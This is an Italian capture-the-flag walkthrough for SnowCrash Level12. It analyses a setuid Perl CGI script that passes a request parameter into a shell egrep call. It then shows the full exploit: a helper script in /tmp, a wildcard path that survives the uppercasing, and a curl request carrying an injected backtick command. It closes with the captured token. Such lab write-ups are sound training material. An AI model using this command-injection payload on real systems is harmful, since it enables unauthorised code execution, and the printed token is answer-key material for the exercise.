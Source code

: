 # Level12
### 1 passaggio:
Eseguendo il comando `ls -l`:
```bash
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
troviamo uno script perl con al suo interno il seguente codice:
```perl
     1  #!/usr/bin/env perl
     2  # localhost:4646
     3  use CGI qw{param};
     4  print "Content-type: text/html\n\n";
     5  sub t {
     6    $nn = $_[1];
     7    $xx = $_[0];
     8    $xx =~ tr/a-z/A-Z/;
     9    $xx =~ s/\s.*//;
    10    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    11    foreach $line (@output) {
    12        ($f, $s) = split(/:/, $line);
    13        if($s =~ $nn) {
    14            return 1;
    15        }
    16    }
    17    return 0;
    18  }
    19  sub n {
    20    if($_[0] == 1) {
    21        print("..");
    22    } else {
    23        print(".");
    24    }
    25  }
    26  n(t(param("x"), param("y")));
```
Il contenuto della variabile `x` viene trasformato in maiuscolo tramite `$xx =~ tr/a-z/A-Z/;`,
successivamente viene salvato tutto ciò che si trova dopo uno spazio con `$xx =~ s/\s.*//;` e
in fine viene passato a `egrep`, in più notiamo che questo script è già in ascolto sulla porta
`4646` come suggerito nel primo commento.

### 2 passaggio:
Come prima cosa bisogna bypassare la prima regex, dunque creiamo un file dentro la cartella `tmp`
con il nome in maiuscolo e gli diamo i permessi di esecuzione, mentre al suo interno metteremo un
semplice script per inserire l'output di `getflag` in un file:
```bash
echo "getflag > /tmp/flag" > /tmp/GETFLAG
chmod +x /tmp/GETFLAG
```
ma ovviamente non possiamo passare il file `/tmp/GETFLAG` allo script perchè verrebbe trasformato in
`/TMP/GETFLAG` e ovviamente non esiste nulla in `TMP` dunque bisogna sfruttare l'espansione `*` scrivendo il percorso nel seguente modo: `/*/GETFLAG`

### 3 passaggio:
Adesso basta fare una semplice richiesta con `curl` e poi stampare il contenuto del file creato:
```bash
level12@SnowCrash:~$ curl '127.00.0.1:4646?x="`/*/GETFLAG`"'
level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
